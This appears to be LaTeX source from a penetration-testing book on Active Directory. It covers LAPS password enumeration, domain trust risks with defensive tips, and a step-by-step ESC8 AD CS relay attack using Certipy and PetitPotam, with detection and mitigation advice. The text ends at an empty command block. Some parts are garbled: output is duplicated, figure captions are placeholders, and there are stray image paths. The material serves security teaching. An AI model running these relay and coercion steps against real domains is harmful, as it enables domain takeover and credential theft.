PS C:\Users\mindhackdiva> Find-AdmPwdExtendedRights ComputerName Identity Reason ------------ -------- ------ EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\textbackslash{}Domain Admins Delegated EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\textbackslash{}LAPS Admins Delegated SQL01.INLANEFREIGHT.LOCAL INLANEFREIGHT\textbackslash{}Domain Admins Delegated SQL01.INLANEFREIGHT.LOCAL INLANEFREIGHT\textbackslash{}LAPS Admins Delegated WS01.INLANEFREIGHT.LOCAL INLANEFREIGHT\textbackslash{}Domain Admins Delegated WS01.INLANEFREIGHT.LOCAL INLANEFREIGHT\textbackslash{}LAPS Admins Delegated 
\end{minted}
\end{notebox}
We can use the \texttt{Get-LapsComputers} function to search for computers that have LAPS enabled when passwords expire, and even randomized passwords in plaintext if our user has access.

\subsubsection{Using \texttt{Get-LAPSComputers}}
\textbf{Enumerating Security Controls}
\begin{notebox}
\begin{minted}{powershell}
PS C:\Users\mindhackdiva> Get-LAPSComputers

ComputerName Password Expiration ------------ -------- ---------- DC01.INLANEFREIGHT.LOCAL 6DZ[+A/[]19d\$F 08/26/2020 23:29:45 EXCHG01.INLANEFREIGHT.LOCAL oj+2A+[hHMMtj, 09/26/2020 00:51:30 SQL01.INLANEFREIGHT.LOCAL 9G\#f;p41dcAe,s 09/26/2020 00:30:09 WS01.INLANEFREIGHT.LOCAL TCaG-F)3No;l8C 09/26/2020 00:46:04 
\end{minted}
\end{notebox}

As we have seen in this section, several other helpful Active Directory enumeration techniques are available to determine what protections are in place. It is worth familiarizing yourself with all of these tools and techniques and adding them to your arsenal of options. 

\chapter{Trust with Caution-Trust Relationship Vulnerabilities + Defensive Measures}
\importantbox{Trust relationships are fundamental in establishing a secure connection between users and systems across domains. They streamline access to resources by allowing the user initially, and the trusting domain relying on this authentication for later access without re-authentication.}

Within network management, trust relationships form the primary foundation of seamless access (or nontransparent access) to resources across interconnected networks, domains, and subdomains. This section will teach defenders the details of trust relationships, shedding light on their properties, potential dangers, and offer practical tips for defenders and offenders to mitigate associated risks.
\begin{tcolorbox}
    TIR SNAPSHOT \begin{itemize}
        \item Establishing trust relationships is the choice of domain administrators. This involves adding trusted and trusting domains, configuring passwords, and confirming the trust relationship.
        \item After establishing trust between two domains, administrators in both domains can log in seamlessly on either domain.
        \item A common breach scenario unfolds when credential are cached on a trusted client. In the event of a breach, this can lead to unauthorized access, potentially wreaking havoc within the interconnected domains. That, in and of itself, is already an internal, self-inflicted attack right there as that problems from parent environments and domains always, surely but slowly, trickles down into child domains by affecting chains of interconnected networks from there on out.
        \item  There are key security considerations that are of significance in the defensive management of trust relationships between Active Directory domains: \begin{itemize}
            \item Impact of Domain Name Changes
            \item Open Connections and Trust Establishment
            \item Careful Planning and Coordination
        \end{itemize}
    \item Some key security tips for maintaining a secure trust environment include (but are not limited to)
    \begin{itemize}
        \item Strong Password Usage and Policy Enforcement
        \item Regular Updates and Patch Management Cadence
        \item Vigilant Continuous Monitoring and Auditing
    \end{itemize}
    \end{itemize}
\end{tcolorbox}

While trust relationships are necessary sufficient for network management, they, too, present inherent security risks, opening more doors, and strengthening the attacker's attack surface into your domain. Defenders and organizations need to manage and secure these relationships proactively by adopting industry-accepted best practices.

\subsection{Properties of Trust + Establishing Trust}
For cyber and network defenders, the establishment of trust relationships is the choice of many domain administrators. This involves adding trusted and trusting domains, configuring passwords, and confirming, validating, and verifying trust relationships. The trusted domain typically initiates the process, adding the trusting domain. Let us examine the three properties that comprise the establishment of trust.
\begin{enumerate}
    \item Trusts are inherently one-way, meaning that if Domain A trusts Domain B, the reciprocative trust may not be automatic.
    \item Trusts lack transitivity: trust that is established between Domains A and B, and B and C, does not imply trust between Domain A and Domain C.
    \item Setting up reciprocity trust is essential from both sides, although either side holds the capability to break the trust relationship once established.
\end{enumerate}

In addition, password management is important in trust relationships. The system automatically changes the initial password after establishing trust. Regular communication between Primary Domain Controllers (PDCs) ensures periodic password changes, occurring every 7 days. It is important to note that rebuilding a broken trust is a complex process, requiring the repetition of the entire setup.

 
\subsubsection{Post-Trust Establishment}
After the trust between the two domains is established, administrators in both domains can log into seamlessly in either domain. This interconnected access facilitates a more fluid and integrated operational environment; however, it is important to note that although the login privileges extend across domains, permissions for accessing resources in the other domain are not automatically granted.

Administrators are required to undertake a manual process to assign these permissions. In other words, the mere establishment of trust does not automatically translate to unrestricted access; administrators must actively manage and assign permissions to ensure that users within their domain can appropriately access resources in the interconnected domain. This deliberate assignment of permissions adds an additional layer of security and control, allowing administrators to tailor access rights based on specific user roles and responsibilities in the interconnected environment.

\subsubsection{Breaches}
A common breach scenario unfolds when credentials are cached on a trusted client. In the event of a breach, this can lead to unauthorized access, potentially wreaking havoc within the interconnected domains.

One of the most devastating, damaging, and crippling attacks in history happened in 2013, when Target experienced a targeted attack characterized by a breach of trust. The threat actors exploited the network credentials of a heating and ventilation company entrusted with the maintenance of a Target store. Leveraging these credentials, the threat actors seamlessly infiltrated the Target company's network, capitalizing on the same level of access provided to the third-party partner.

Another notable example involves MenuPass, a Chinese-based threat group. Between 2016 and 2017, MenuPass conducted a campaign targeting IT Managed Service Providers (MSPs), mining companies, manufacturing entities, and a university. Using credentials obtained from these organizations, the group gained unauthorized access to victim resources.

\subsubsection{Security}
There are key security considerations that are of significance in the management of trust relationships between domains.

\begin{enumerate}
    \item \textbf{Impact of Domain Name Changes}: Altering the name of a domain can disrupt trust relationships. This emphasizes the importance of stability in domain naming conventions, as changes in this aspect can potentially interfere with established trust, affecting the overall reliability and functionality of the interconnected domains.
    \item \textbf{Open Connections and Trust Establishment}: The process of establishing trust is hindered by open connections to another domain. This highlights the need for a secure and controlled environment during the establishment phase. Any open connection can introduce vulnerabilities and compromise the integrity of the trust relationship, underscoring the importance of a secure and closed communication channel between domains.
    \item \textbf{Careful Planning and Coordination}: Effective trust management requires careful planning and coordination with administrators in other domains. This emphasizes the collaborative nature of trust establishment, where domain administrators must work in tandem to ensure that the trust relationship is established securely and aligns with the overall security policies of the interconnected domains. This coordination is essential to minimize potential security risks and enhance the overall integrity of the trust relationship.
\end{enumerate}

\subsection{Active Directory Trusts}
Ensuring the security of Active Directory Trusts involves implementing critical measures to mitigate potential vulnerabilities and unauthorized access. Some key security tips for maintaining a secure trust environment include:

\begin{enumerate}
    \item \textbf{Strong Password Usage:} The foundation of trust security lies in the use of strong passwords. Developing robust password policies helps protect against unauthorized access attempts. This involves enforcing complex password requirements, such as a combination of uppercase and lowercase letters, numbers, and special characters. Regularly updating and rotating passwords further enhances the resilience of trust relationships.
    \item \textbf{Regular Updates:} Keeping all systems and components up-to-date is a key to security. This includes quickly applying patches, updates, and security fixes. Regular update of operating systems, Active Directory servers, and associated software ensures that potential vulnerabilities are addressed, reducing the risk of exploitation by malicious actors seeking to compromise trust relationships.
    \item \textbf{Implementation of Two-Factor Authentication (2FA}\textbf{):} Adding an additional layer of authentication through 2FA significantly enhances trust security. By requiring users to provide two forms of identification, typically a password and a secondary authentication method (such as a code sent to a mobile device), the risk of unauthorized access is significantly reduced. This additional verification step adds a safeguard against potential breaches.
    \item \textbf{Vigilant Monitoring and Auditing:} Continuous monitoring and auditing practices are necessary to detect and respond to suspicious activities immediately. Monitoring user authentication, access attempts, and changes within the trust environment can provide early indications of potential security threats. The application of robust audit policies ensures that any deviations from normal behavior are identified and addressed in a timely manner.
\end{enumerate}
By adhering to these security tips, administrators can strengthen the resilience of Active Directory trusts, fortifying the overall security posture, and minimizing the risk of unauthorized access or compromise within the trust relationships.

\section{MITRE ATT\&CK} 
In the world of cybersecurity, it is vital to grasp threat actors exploit trusted relationships. MITRE ATT\&CK™ is a helpful tool for navigating this space. Trusted Relationship Attacks involve threat actors taking advantage of established trust to compromise security. To protect against such threats, organizations need to look at real-world examples, understand how to detect these attacks, and have effective ways to stop them.

\textbf{Real-World Examples:} Think about instances where attackers used trust to breach security, such as the Target attack. They entered using credentials from a trusted partner. Learning from such cases helps us prepare for similar situations.

\textbf{Detection Methods:} To catch trusting relationship attacks, we need to watch for strange behaviors. This includes things like unexpected movements between connected systems, unusual access patterns, or sudden changes in trust settings. Using smart tools and keeping an eye on things helps us spot suspicious activities early.

\textbf{Mitigation Strategies:} Stopping trust relationship attacks involves being proactive and responsive. We can limit damage by giving users only the access they really need. Regularly checking and updating trust settings, using strong authentication, and educating people about security all help defend against these attacks.

Understanding MITRE ATT\&CK™ gives us a structured way to identify potential attacks and tactics. By aligning our strategies with this framework, we can be better prepared to defend against trust relationship attacks.

 Although trust relationships are necessary for efficient network management, they come with inherent security risks. Organizations must actively manage and protect these relationships by adopting best practices. This includes regular assessments, implementing the least privilege principle, monitoring trust-related activities, and ensuring that systems are updated and patched.

Keeping vigilant against evolving threats, staying informed and conducting employee training contribute to building a resilient network infrastructure that can withstand dynamic cybersecurity challenges.

 
 




\chapter{Escalation 8: Exploiting Active Directory Certificate Services (AD CS) Through Elevation of Privilege Vulnerability}

In past security engagements, it became common for my team and I to find ourselves collectively exploiting common Active Directory Certificate Services (AD CS) leveraging a certain vulnerability that allowed us to privilege escalate the breached account we were using. In doing so, this allowed us to escalate the privileges to Domain Admin. This vulnerability typically evades detection by standard vulnerability scanners, making it a pervasive network equivalent to an Achilles heel.

Additionally, this vulnerability cannot be fixed via a vendor patch, but instead prevention requires proper configuration of AD CS.

As defensive and offensive security experts, your aim is to proactively help the customer remediate internal and external network vulnerabilities before bad actors discover them. AD CS is a subject that frequently warrants a deep dive with your customers, answering the questions \textit{"What is AD CS?" "What are the problematic vulnerabilities associated with AD CS?"} and \textit{"How do I prevent AD CS vulnerabilities?"}

\section{An Overview of Active Directory Certificate Services (AD CS)}
AD CS is a Windows Server role that is often found within an Active Directory environment. It is used to issue and manage Public Key Infrastructure (PKI) certificates, which are used in secret communications and authentication processes. If misconfigured, some of the settings of AD CS are highly exploitable, leading to an escalation of administrative privileges within a domain.

There are many different escalation attacks, or ESCs, which are identified by their number (e.g., ESC8). The two most common vulnerabilities in ESC that are often found during assessments are ESC1 and ESC8. In both instances, exploiting these vulnerabilities requires first having a foothold in the environment as opposed to the administrator level. This means leveraging a simple user will do, including any domain user across various roles within the organization (accounting, HR, sales, etc.). Anybody with domain credentials can carry out this attack, which is why it is so prevalent in terms of success.

\importantbox{\textbf{A Look at ESC8}
The risk associated with this vulnerability is that it is a relatively easy way to escalate privileges, but it is also one that a typical vulnerability scanner would not pick up. That is cause for alarm, because the potential negative outcomes-compromised customer data, compromised business data, ransomware-are quite dire.

ESC8 takes advantage of an AD enterprise certificate authority (CA) web enrollment feature. If enabled, this feature allows a user to request a certificate template via the HTTP/S web interface, which can also accept NTLM authentications. This enables an attacker to perform an NTLM relay attack in which the relay is directed to the web interface. When successful, the CA will issue a certificate for the relayed user, which the attacker can then use to authenticate to the targeted domain.}

\subsection{ESC8 Walkthrough}
Remediating this vulnerability involves attention to configuration. Let us walk through the vulnerability of ESC8, what to look for that makes it vulnerable, and how to remediate the weakness.

The typical attack chain works as follows: first, an attacker must verify that the AD CS infrastructure exists in the target environment. The attacker will need the domain user's credentials before arriving at this point. There are a variety of methods, such as password spraying attacks or broadcast message spoofing attacks, that could be used to obtain these credentials. These attacks are covered in their prospective chapters, so this section will be more of a way to showcase the ways to discover AD CS including any potential associated vulnerabilities using tools like \textbf{Certipy} and target a Domain Controller (DC) with Certipy's \texttt{find} module.

\begin{notebox}
\begin{minted}{bash}
$ certipy find -u 'khal.drogo' -p 'horse' -dc -ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 38 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 16 enabled certification templates
[*] Trying to get CA configuration for 'ESSOS-CA' via CSRA
[*] Got CA configuration for 'ESSOS-CA'
[*] Saved to BloodHound data to '20251203214932_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20251203214932_Certipy.txt'
[*] Saved JSON output to '20251203214932_Certipy.json'
\end{minted}
\end{notebox}

Certipy returns the results of all certificate authorities and certificate templates it was able to find in the target environment.

\begin{notebox}
\begin{minted}{bash}
Certificate Authorities
#
CA Name : ESSOS-CA
DNS Name : braavos.essos.local Certificate Subject : CN = ESSOS-CA, DC = essos, DC = local certificate serial number : 255CC781A3C4E98C41EEDEDBS0CA1031F Certificate Validity Start : 2025-12-04 03:38:15:00:00
Certificate Validity End : 2029-12-04 03:48:14:00:00
Web Enrollment : Enabled
User-SPecified SAN : Enabled
Request Disposition : Issue Enforce Encryption for Requests : Enabled
Permissions
    Owner                               : ESSOS.LOCAL\Administrators
    Access Rights
        ManageCertifications            : ESSOS.LOCAL\Administrators
                                          ESSOS.LOCAL\Domain Admins
                                          ESSOS.LOCAL\Enterprise Admins
        ManagedCA                       : ESSOS.LOCAL\Administrators
                                          ESSOS.LOCAL\Domain Admins
                                          ESSOS.LOCAL\Enterprise Admins
        Enroll                          : ESSOS.LOCAL\Authenticated Users
[1] Vulnerabilities
    ESC6                                : Enrollees can specify SAN and Request Disposition is set to Issue. Does not work after May 2026
    ESC8                                : Web Enrollment is enabled and Request Disposition is set to Issue
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 38 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 16 enabled certification templates
[*] Trying to get CA configuration for 'ESSOS-CA' via CSRA
[*] Got CA configuration for 'ESSOS-CA'
[*] Saved to BloodHound data to '20251203214932_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20251203214932_Certipy.txt'
[*] Saved JSON output to '20251203214932_Certipy.json'
\end{minted}
\end{notebox}


\chapter{Active Directory Certificate Services (AD CS) Misconfiguration Exploits}
Active Directory Certificate Services (ADCS) is a server role that allows a corporation to build a public-key infrastructure. This allows the organization to provide public key cryptography, digital certificates, and digital signatures capabilities to the internal domain.

Although using ADCS can provide a company with valuable capabilities on their network, a misconfigured ADCS server could allow an attacker to gain additional unauthorized access to the domain. This blog outlines exploitation techniques for vulnerable ADCS misconfigurations that we see in the field.

Tools we will be using alongside Certipy: A great tool for exploiting several ADCS misconfigurations.
\textbf{PetitPotam}: A tool that coerces Windows hosts to authenticate to other machines.
\textbf{Secretsdump} (a Python script included in Impacket): A tool that dumps SAM and LSA secrets using methods such as pass-the-hash. It can also be used to dump all the password hashes for the domain from the domain controller.
\textbf{CrackMapExec}: A multi-faceted tool that can dump user credentials and spray credentials across the network simultaneously to access more systems.

\section{Exploit 1: AD CS Web Enrollment}
If an AD CS Certificate Authority (CA) has Web Enrollment enabled, an attacker can perform a relay attack against the CA with the intent of escalating privileges within the domain, or doing other nefarious acts. We can use Certipy to find ADCS Certificate Authority servers using the \verb|find| command of the tool.
\importantbox{\textbf{Note:} The attacker will need access to the domain, but the credentials of a simple authenticated user are all that is needed to perform this attack.}

\begin{notebox}
\begin{minted}
certipy find -dc-ip DC IP Address} -u {User} -p {Password}
\end{minted}
\end{notebox}

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{certipy2.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

First, while setting up AD CS in a test environment, we also set up a Certificate Authority (CA) to use for this testing. Certipy's \texttt{find} command also has a \textit{vulnerable} flag that will only show misconfigurations within AD CS.
\begin{notebox}
\begin{minted}
certipy find -dc-ip {<DC_IP_ADDRESS} -u {<USER>} -p {<PASSWORD>}
\end{minted}
\end{notebox}
\textbf{Example:} \verb|certipy find -dc-ip 192.168.1.10 -u khaldrogo -p Dr0G0Kh@l2025! -vulnerable|
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{certipy3.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
The output of the text file lists the misconfigurations found by Certipy. While setting up my lab environment, I checked the box for Web Enrollment. Here, we see that the default configuration is vulnerable to the ESC8 attack:
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{certipy4.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

\section{Exploiting a Certificate Authority Relay Vulnerability Using Certipy and PetitPotam}
This attack chain targets a vulnerable Active Directory Certificate Services (AD CS) setup. It abuses misconfigurations in how certificates are issued and how authentication can be coerced.

\subsection{Overview of the Attack}
To exploit the vulnerability, we use two key tools:
\begin{itemize}
    \item \textbf{Certipy} - For relaying authentication attempts to a Certificate Authority (CA).
    \item \textbf{PetitPotam} - To force a domain controller to authenticate to us.
\end{itemize}

Once the DC authenticates to our relay server, we can impersonate it and request a valid certificate for the DC account. With this certificate, we gain full access to the domain, including the ability to impersonate any user or machine - even Domain Admins.

\subsection{Step-by-Step Breakdown}
\section{Step 1: Setup a Relay with Certipy to a Certificate Authority (CA)}
In this stage, you configure Certipy to act as a relay server that will intercept NTLM authentication attempts and then forward them to a misconfigured or vulnerable Active Directory Certificate Services (AD CS) instance. The ultimate goal is to obtain a certificate for a high-privilege account (like a Domain Controller), which can then be used for Kerberos authentication and full domain access.

\subsubsection{How This Pre-Attack Stage Works}
When a victim (e.g., a Domain Controller) is coerced into authenticating over NTLM (via attacks like \textbf{PetitPotam}), its credentials (NTLM hashes) are sent to the attacker's system. Certipy listens for these requests and relays them back to the CA-but not just any CA: one that supports NTLM authentication and has a misconfigured template, such as \verb|DomainController.|

By doing this, Certipy requests a certificate on behalf of the DC, using the relayed NTLM authentication. If successful, the attacker receives a valid certificate that can be used to impersonate the Domain Controller via Kerberos (PKINIT).

Use the following command to start the relay setup process:
\begin{notebox}
\begin{minted}{bash}
    certipy relay -ca <CA_IP_OR_HOSTNAME> -template DomainController
\end{minted}
\end{notebox}
\subsubsection{Explanation of Parameters}
\begin{itemize}
    \item \verb|certipy relay:| Tells Certipy to run in relay mode, listening for inbound NTLM authentication attempts.
    \item \verb|<CA_IP_OR_HOSTNAME:>| This is the target CA server (IP or hostname) to which NTLM authentication will be forwarded.
    \begin{itemize}
        \item The CA must be accessible and have at least one template vulnerable to abuse (such as allowing machine accounts to request authentication certificates).
    \end{itemize}
    \item \verb|-template DomainController:|
    \begin{itemize}
        \item This specifies the certificate template to request. It is crucial because the template allows certificate issuance for domain controller accounts, which grants high privileges. In other words, it specifies the certificate template to use during the relay.
        \item The \verb|DomainController| template is often configured to allow machine accounts to request certificates that support:
        \begin{itemize}
            \item \texttt{Client Authentication}
            \item \texttt{Smartcard Logon}
        \end{itemize}
    \item These certificate usages are critical because they enable Kerberos PKINIT authentication-effectively allowing the attacker to impersonate the DC.
    \end{itemize}
\end{itemize}

\begin{notebox}
    \textbf{Why This Works}
    The Active Directory Certificate Services (AD CS) ecosystem can be misconfigured in several ways: \begin{itemize}
        \item It trusts NTLM for certificate enrollment (instead of requiring Kerberos or mutual authentication).
        \item It allows machine accounts (like \texttt{DC01\$}) to request certificates through vulnerable templates.
        \item Templates like \texttt{DomainController}, if not properly restricted, can be requested using only NTLM credentials.
    \end{itemize}
\end{notebox}
This creates an ideal situation for NTLM Relaying. Certipy takes advantage of this by:
1. Capturing an NTLM authentication from the victim (coerced using PetitPotam or similar).
2. Relaying it to the CA.
3. Requesting a certificate using the \texttt{DomainController} template.
4. Receiving a certificate that allows Kerberos authentication as the Domain Controller.

\subsection{Importance of the \verb|DomainController| Template}

Certificates issued from this template typically contain the following information:
\begin{itemize}
    \item \verb|ClientAuthentication| Enhanced Key Usage (EKU)
    \item \verb|SmartcardLogon| EKU
\end{itemize}
These attributes are \textbf{sufficient to perform PKINIT} (Kerberos authentication using PKI). With this certificate, the attacker can request a \textbf{ ticket grant Ticket (TGT)} for the domain controller's account, effectively \textbf{ becoming the DC} on the network.

\begin{warningbox}
\subsubsection{✅ Prerequisites \& Considerations}
Before running this command, ensure:
\begin{itemize}
    \item You have PetitPotam or another NTLM coercion technique working to force the DC to authenticate to you.
    \item The Certificate Authority is accessible and allows NTLM-based requests.
    \item The template (\verb|DomainController| in this case) is: \begin{itemize}
        \item Enabled on the CA
        \item Does not restrict Subject Alternative Names (SAN)
        \item Does not enforce stricter client authentication (e.g., Kerberos only)
    \end{itemize}
\end{itemize}
\end{warningbox}

\importantbox{\subsubsection{Why This Matters}
The template \verb|DomainController| often issues certificates with \verb|ClientAuthentication| and Smart Card Logon usage. These can be abused for \textit{Kerberos PKINIT authentication}, giving full access to the DC account.}

\section{Step 2: Coerce Authentication From The Domain Controller}
Next, we need the domain controller to authenticate and connect to us-the relay server. For this, we will use an attack utility known as \textbf{PetitPotam.}

But, first, what does the PetitPotam tool exactly do? Let us find out!

\begin{notebox}
\textbf{PetitPotam} is an NTLM relay attack that exploits a vulnerability in the \textbf{\textit{Microsoft Encrypted File System Remote Protocol (MS-EFSRPC)}}. Using a specific function of this protocol, an attacker can force a Windows server, such as a domain controller, to authenticate against a malicious server without any prior credentials. This allows the attacker to steal the authentication and take over the entire domain.

\informationbox{\textbf{Note:} The "special function" as mentioned above is a function exploited by the PetitPotam utility, the property \texttt{EfsRpcOpenFileRaw.}

\verb|EfsRpcOpenFileRaw| is a legitimate RPC (Remote Procedure Call) function that is used by the Windows \textbf{\textit{Encrypted File System (EFS).}} The EFS allows remote systems to access and work with encrypted files. In normal operations, this process unfolds in several steps, as described in further detail below.
\end{notebox}
  
\section*{PetitPotam Attack Sequence: EFSRPC Abuse Leading to Domain Compromise}

\subsection*{Initial Foothold and Targeting}
An attacker with network access identifies a target server, often a domain controller, that is running the Encrypting File System Remote Protocol (EFSRPC) and sends a malicious request. Keep in mind that while EFSRPC is a legitimate protocol, it can be exploited in coercion attacks such as PetitPotam and that the Encrypting File System Remote Protocol (EFSRPC) is designed to allow remote management of encrypted files; however, attackers can exploit this protocol to trigger authentication requests from the target, which can then be relayed in NTLM relay attacks, like those used in PetitPotam.

\subsection*{Determining if EFSRPC is Accessible}
To assess whether a server is running or exposing the EFSRPC interface, defenders can take several steps:

Check if the \verb | lsass.exe| process exposes EFSRPC over named pipes. EFSRPC runs on the pipes named \verb|\pipe\lsarpc| or \verb|\\pipe\efsrpc| named pipes.

Use tools like \textbf{Sysinternals'} \texttt{PipeList} or PowerShell to view named pipes. You can check for these using the following:
    \begin{verbatim}
Get-ChildItem \\.\pipe\
    \end{verbatim}
\textbf{Or remotely:}
    \begin{verbatim}
[System.IO.Directory]::GetFiles("\\TARGET_SERVER\pipe\")
    \end{verbatim}
Look for named pipes such as \verb|efsrpc| or \verb|lsarpc|.
\textbf{Use PowerShell to check open named pipes (if permissions allow):}
    \begin{itemize}
        \item Use this PowerShell script (from public repositories like PowerView or custom scripts) to enumerate remote named pipes:\verb|$server = "TARGET_SERVER" [System.IO.Directory]::GetFiles("\\$server\pipe\") |
    \end{itemize}

\textbf{Check the registry or services:}
\begin{itemize} 
    \begin{itemize}
        \item  EFS-related services such as \verb|EFS| (Encrypting File System) may be running on the server.
    \end{itemize}
    \begin{itemize}
        \item  Check via: \verb|Get-Service -Name EFS | \begin{itemize}
            \item If running and set to auto/startup, the server may support EFSRPC.
        \end{itemize}
    \end{itemize}
\end{itemize}
 
Look for \texttt{efsrpc} or \texttt{lsarpc} among the results and search for RPC interfaces using Impacket's \texttt{rpcdump.py}
    \begin{verbatim}
rpcdump.py @<target-ip>
    \end{verbatim}
Look for UUID \texttt{DF1941C5-FE89-4E79-BF10-463657ACF44D}, which identifies the EFSRPC interface.

\textbf{Check for EFS service status:}
    \begin{verbatim}
Get-Service -Name EFS
    \end{verbatim}
If the \texttt{EFS} service is running or is set to start automatically, the system may expose EFSRPC.

\subsection{Monitor Windows Event Logs:}  Event ID 541 in the \texttt{Microsoft-Windows-CertificateServicesClient-Lifecycle-System} log is associated with EFSRPC calls. Unexpected occurrences of this event may signal attempts at coercion.

\subsection*{Triggering NTLM Authentication}
Using a crafted EFSRPC request, the attacker coerces the target server into initiating an outbound NTLM authentication. This is typically done through a forced RPC call to \verb|\\pipe\efsrpc|, prompting the Domain Controller to authenticate to an attacker-controlled machine.

\subsection*{Intercepting and Relaying Credentials}
The attacker's server captures the NTLM authentication challenge-response and immediately relays it to a vulnerable service, most often the AD CS Web Enrollment interface, which may accept NTLM authentication without requiring additional verification (e.g. due to misconfiguration like ESC8).

\subsection*{Abusing AD CS to Obtain a Certificate}
Upon receiving the relayed NTLM credentials, AD CS issues an authentication certificate to the attacker. This certificate acts as a valid identity credential for Kerberos authentication.

\subsection*{Impersonating the Domain Controller}
With the certificate, the attacker can request a Kerberos Ticket Granting Ticket (TGT). The TGT allows them to impersonate the targeted Domain Controller and act as a fully trusted authority within the Active Directory environment.

\subsection*{Full Domain Compromise}
At this stage, the attacker effectively controls the Windows domain. They can issue service tickets, impersonate any user, escalate privileges, and move laterally with little resistance - achieved by exploiting certificate-based authentication and NTLM relay mechanisms.
    \begin{warningbox}
        \textbf{Why PetitPotam is Dangerous}
        \begin{itemize}
            \item \textbf{Unauthenticated access:} Unlike many other NTLM relay attacks, PetitPotam does not require the attacker to have any pre-existing credentials. All that is needed is simple network access.
            \item \textbf{Exploits AD CS:} When combined with misconfigured Active Directory Certificate Services, the attack becomes extremely dangerous. By relaying the stolen authentication to AD CS, an attacker can issue themselves a domain controller certificate, leading to a complete domain takeover.
            \item \textbf{Affects many versions of Windows:} The attack has been shown to affect various versions of Windows, including Windows Server 2008 to 2022, if not properly mitigated.
        \end{itemize}
    \end{warningbox}
    \subsubsection{How to Mitigate PetitPotam}
    To protect against PetitPotam and other NTLM relay attacks, Microsoft and security researchers recommend several mitigation strategies:
    \begin{itemize}
        \item \textbf{Disable NTLM}
        If at all feasible, disable NTLM authentication completely on all domain controllers and AD CS servers entirely and use the more secure Kerberos protocol with pre-authentication enabled.
        \item \textbf{Enable EPA and Signing}
        On services the must use NTLM, enable Extended Protection for Authentication (EPA) and configure signing features like SMB signing. This helps prevent relay attacks by binding authentication to a specific accountable server.
        \textbf{Configure AD CS Properly}
        Ensure that your AD CS servers are configured with protections against NTLM relay attacks as detailed in Microsoft's security advisory \textit{KB5005413.}
        \textbf{Use Group Policy Objects (GPOs)}
        Restrict NTLM traffic to your AD CS servers using Group Policy Objects (GPOs) to control incoming NTLM traffic.
    \end{itemize}

To get the domain controller to authenticate and connect to our relay server, issue the following command using PetitPotam:
\begin{notebox}
\begin{minted}{python}
